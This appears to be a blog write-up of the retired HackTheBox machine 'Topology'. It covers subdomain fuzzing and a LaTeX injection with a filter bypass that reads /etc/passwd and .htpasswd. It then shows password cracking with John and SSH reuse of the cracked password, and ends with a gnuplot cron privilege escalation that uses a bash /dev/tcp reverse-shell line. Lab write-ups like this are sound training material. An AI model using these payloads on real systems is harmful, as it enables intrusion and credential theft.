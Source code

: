 ```yaml
---
title: "Topology HackTheBox"
layout: post
date: 2023-11-04 21:00
tag: 
- HackTheBox
- Pentesting
- Topology
- Linux
- Easy
- Gnuplot
- LaTeX
image: https://www.hackthebox.com/storage/avatars/cbfa26b4a4044677e93779a44bbd458f.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "An easy retired HackTheBox machine."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

An easy HackTheBox machine that envolves a virtual host which is vulnerable to LaTeX injection vulnerability.

---

# Nmap

```bash
nmap -A -T4 10.10.11.217
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 12:55 +01
Nmap scan report for 10.10.11.217
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two ports open, let's check the web page at port 80 :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031125816.png>)

I added the `topology.htb` to my */etc/hosts* and started enumerating for hidden directories or subdomains, Gobuster didn't output anything useful, but ffuf did :

# Fuff

```bash
ffuf -u http://topology.htb -c -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt -H "Host: FUZZ.topology.htb" -fs 6767

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

dev                     [Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 194ms]
stats                   [Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 1418ms]
:: Progress: [2280/2280] :: Job [1/1] :: 23 req/sec :: Duration: [0:00:54] :: Errors: 0 ::
```

The `dev.topology.htb` requires authorization :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031151647.png>)

I went back to my web page and found there is a project about LaTeX :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031143758.png>)

When I clicked on it, it redirects me to another subdomain `latex.topology.htb` :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031143827.png>)

There I can use the equation generator to create a PNG file :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031143944.png>)

So I thought about some sort of LaTeX injection which I found that it does exists :

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

I tired the bellow payload but I see there is a filtering :

```bash
\input{/etc/passwd}
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144014.png>)

The payload bellow actually worked so we bypassed the first part of filtering now I should customize it to bypass there filter :

```bash
\lstinputlisting{/etc/passwd}
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144205.png>)

```bash
$\lstinputlisting{/etc/passwd}$
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144332.png>)

And yes by adding $ I was able to bypass it, now I can read files on the server :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144408.png>)

I remembered the subdomain found before `dev.topology.htb` and said let's try if I can read the .htpasswd file which is used to store usernames and password for basic authentication of HTTP users :

```bash
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031145635.png>)

And that was the case, we found credentials of `vdaisley` user, I needed just to crack the encrypted password using John :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031145614.png>)

`vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)     
1g 0:00:00:05 DONE (2023-10-31 15:10) 0.1964g/s 195621p/s 195621c/s 195621C/s callel..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

`vdaisley : calculus20`

Now I can access the `dev.topology.htb`, there was nothing useful so I tried if there is password reusing to login via SSH :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031151611.png>)

# User flag

Fortunately that was the case and I am in as `vdaisley` user :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031151722.png>)

# PE

While trying to privesc, I checked running processes using pspy tool and found there is a process running every minute by root which looks for files with .plt extension in */opt/gnuplot* and executes them.

>Gnuplot is a command-line and GUI program that can generate two and three-dimensional plots of functions, data, and data fits.

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154344.png>)

I have write permissions on the */opt/gnuplot* directory, so I thought about creating a malicious plt file which will be executed by root and privesc :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154427.png>)

 https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation

```bash
system "bash -c 'bash -i >& /dev/tcp/10.10.14.141/9999 0>&1'"
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154916.png>)

I created a file named 'exploit.plt' and waited till it's executed and BOOM I got a root shell :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154951.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>